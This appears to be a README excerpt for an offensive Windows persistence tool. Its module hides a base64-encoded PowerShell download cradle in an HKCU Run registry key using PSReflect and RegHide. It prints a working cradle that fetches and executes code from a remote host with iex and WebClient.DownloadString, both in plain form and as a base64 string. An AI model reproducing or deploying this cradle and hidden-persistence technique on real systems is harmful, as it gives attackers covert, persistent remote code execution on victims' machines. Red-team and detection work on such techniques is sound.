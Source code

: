 ## Modules

### PowerShell HKCU via PSReflect

Accepts a basic base64'd (to avoid escaping pain) download cradle.  Writes it to HKCU\Software\Microsoft\Windows\Run\\`0pwned using a modified version of [PSReflect](https://github.com/mattifestation/PSReflect) and [RegHide](https://gist.github.com/brianreitz/feb4e14bd45dd2e4394c225b17df5741#file-psreflect-reghide-ps1).

![HKCU (PSH)](images/hkcu_psh.png)

Basic Example:

`iex ([System.Net.WebClient]::New().DownloadString('http://192.168.56.100/a'))`
`aQBlAHgAIAAoAFsAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0AF0AOgA6AE4AZQB3ACgAKQAuAEQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4ANQA2AC4AMQAwADAALwBhACcAKQApAA==`